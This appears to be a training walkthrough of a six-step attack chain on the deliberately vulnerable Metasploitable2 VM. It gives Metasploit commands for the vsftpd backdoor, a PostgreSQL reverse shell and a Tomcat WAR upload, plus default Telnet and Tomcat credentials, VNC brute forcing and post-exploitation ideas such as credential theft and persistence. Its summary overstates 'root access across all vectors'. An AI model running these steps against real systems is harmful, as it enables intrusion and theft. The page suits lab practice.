

# Metasploitable2-Multi-Service-Exploitation-Chain

This attack chain demonstrates a complete exploitation workflow against the Metasploitable2 vulnerable machine, targeting multiple services including FTP (vsftpd), Telnet, VNC, PostgreSQL, and Apache Tomcat. The objective is to achieve root access through various initial access vectors, showcasing how reconnaissance leads to multiple exploitation paths in a legacy Linux environment. This is suitable for red team training, CTF walkthroughs, and understanding service-specific vulnerabilities.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Verified |
| Total Steps | 6 |
| Execution Time | ~30-45 minutes |
| Skill Level | Beginner |
| Complexity | Low-Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nmap]]
- [[tools/Metasploit-Framework]]
- [[tools/Telnet]]
- [[tools/VNC-Viewer]]

### Target Environment

- Metasploitable2 VM running on Linux (default IP: 192.168.x.x)
- Services: FTP (21), Telnet (23), VNC (5900), PostgreSQL (5432), Tomcat (8180)
- Network connectivity from attacker machine (Kali Linux recommended)

### Initial Access Requirements

- No prior authentication
- Direct network access to target ports
- Attacker machine with pentesting tools installed

## Detailed Attack Procedures

### Step 1: Network Service Discovery and Enumeration
procedure: [[procedures/Network-Service-Discovery-and-Enumeration-with-Nmap]]

**Objective**: Identify open ports and vulnerable services on the Metasploitable2 target to map the attack surface.

**Instructions**: Launch an Nmap scan to enumerate services and versions. Use the following command to perform a service detection scan:

[[commands/nmap-service-enumeration-scan]]

```bash
sudo nmap -sV -Pn $_TARGET_IP
```

Replace $_TARGET_IP with the target's IP address. This scan detects services like vsftpd 2.3.4 on port 21, Telnet on 23, VNC on 5900, PostgreSQL on 5432, and Tomcat on 8180.

**Expected Output**: A list of open ports with service versions, such as:

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
23/tcp   open  telnet  Linux telnetd
5900/tcp open  vnc     VNC (protocol 3.8)
5432/tcp open  postgresql PostgreSQL DB 8.3.0 - 8.3.7
8180/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

**Success Indicators**:
- All target services (21, 23, 5900, 5432, 8180) identified as open
- Vulnerable versions confirmed (e.g., vsftpd 2.3.4)

### Step 2: Exploit vsftpd Backdoor
procedure: [[procedures/Exploit-vsftpd-2-3-4-Backdoor-with-Metasploit]]

**Objective**: Trigger the backdoor in vsftpd 2.3.4 to gain root shell access via remote code execution.

**Instructions**: Start Metasploit console using [[commands/msfconsole-launch]]:

```bash
msfconsole
```

Search for the vsftpd module with [[commands/msf-search-module]]:

```msf6 > search vsftpd
```

Use the exploit module with [[commands/msf-use-exploit]]:

```msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```

Set the target with [[commands/msf-set-rhosts]]:

```msf6 > set RHOSTS $_TARGET_IP
```

Execute the exploit with [[commands/msf-run-exploit]]:

```msf6 > run
```

This triggers the backdoor, opening a shell on port 6200.

**Expected Output**: Meterpreter or shell session established, with root privileges (e.g., `id` shows uid=0(root)).

**Success Indicators**:
- Backdoor triggered successfully
- Root shell obtained and confirmed

### Step 3: Access Telnet with Default Credentials
procedure: [[procedures/Access-Telnet-with-Default-Credentials]]

**Objective**: Gain remote shell access using default credentials over Telnet.

**Instructions**: Connect to the Telnet service using [[commands/telnet-connect]]:

```bash
telnet $_TARGET_IP
```

At the login prompt, enter username: msfadmin and password: msfadmin.

**Expected Output**: Successful login with a shell prompt (e.g., msfadmin@metasploitable:~$).

**Success Indicators**:
- Authentication succeeds without errors
- Interactive shell access granted

### Step 4: Brute Force VNC Password and Access Remote Desktop
procedure: [[procedures/Brute-Force-VNC-Password-and-Access-Remote-Desktop]]

**Objective**: Discover the VNC password via brute force and establish a remote desktop session.

**Instructions**: In Metasploit, use the VNC login scanner with [[commands/vnc-login-brute-force]]:

Start msfconsole if not already running, then:

```msf6 > use auxiliary/scanner/vnc/vnc_login
msf6 > set RHOSTS $_TARGET_IP
msf6 > run
```

Once the password (password) is found, connect using [[commands/vncviewer-connect]]:

```bash
vncviewer $_TARGET_IP:5900
```

Enter the discovered password.

**Expected Output**: VNC login successful, remote desktop GUI loads.

**Success Indicators**:
- Password brute-forced successfully
- Remote desktop connection established

### Step 5: Exploit PostgreSQL for Payload Execution
procedure: [[procedures/Exploit-PostgreSQL-for-Payload-Execution]]

**Objective**: Execute a payload on the PostgreSQL service to gain a reverse shell.

**Instructions**: In Metasploit, search for PostgreSQL modules:

[[commands/msf-search-module]]

```msf6 > search postgresql
```

Use the payload exploit:

[[commands/msf-use-exploit]]

```msf6 > use exploit/linux/postgres/postgres_payload
```

Set options:

[[commands/msf-set-rhosts]]

```msf6 > set RHOSTS $_TARGET_IP
msf6 > set LHOST $_ATTACKER_IP
```

Run the exploit:

[[commands/msf-run-exploit]]

```msf6 > run
```

**Expected Output**: Payload executed, reverse shell or Meterpreter session opened.

**Success Indicators**:
- Session established
- Commands executable in the shell

### Step 6: Exploit Apache Tomcat Manager with WAR Upload
procedure: [[procedures/Exploit-Apache-Tomcat-Manager-with-WAR-Upload]]

**Objective**: Upload a malicious WAR file to Tomcat Manager for code execution and shell access.

**Instructions**: In Metasploit, search for Tomcat modules:

```msf6 > search apache tomcat
```

Use the upload exploit:

```msf6 > use exploit/multi/http/tomcat_mgr_upload
```

Set options:

```msf6 > set RHOSTS $_TARGET_IP
msf6 > set RPORT 8180
msf6 > set HttpUsername tomcat
msf6 > set HttpPassword tomcat
```

Run the exploit:

```msf6 > run
```

**Expected Output**: WAR file deployed, shell session established with service-level access.

**Success Indicators**:
- Upload successful without errors
- Code execution confirmed via shell

## Attack Chain Summary

### Key Achievements

- Full service enumeration revealing multiple vulnerabilities
- Root access via vsftpd backdoor
- Shell access via Telnet defaults
- GUI access via VNC
- Reverse shell from PostgreSQL exploitation
- Code execution via Tomcat WAR upload

### Privilege Level Obtained

Root access across all vectors

### Post-Exploitation Opportunities

- Harvest credentials from /etc/shadow or databases
- Establish persistence with cron jobs or backdoors
- Pivot to other network hosts if available
- Exfiltrate sensitive files like user data

---

*Last updated: 2025-11-30T21:55:00.000000+00:00*
